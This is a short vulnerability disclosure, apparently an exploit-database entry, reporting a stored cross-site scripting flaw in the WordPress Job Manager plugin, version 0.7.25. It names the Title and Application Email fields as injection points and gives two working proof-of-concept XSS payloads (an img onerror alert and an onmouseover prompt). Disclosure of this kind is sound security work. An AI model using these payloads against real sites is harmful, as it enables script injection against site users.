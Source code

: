 # Exploit Title: WrodPress  Plugin Job Manager —— Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/job-manager/
# Version :  V 0.7.25
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Job Manager 》Add Job 》Title and Application Email ,insert the xss payload <img src=1 onerror=alert(3)> and "OnMoUsEoVeR=prompt(1)//
![image]()  
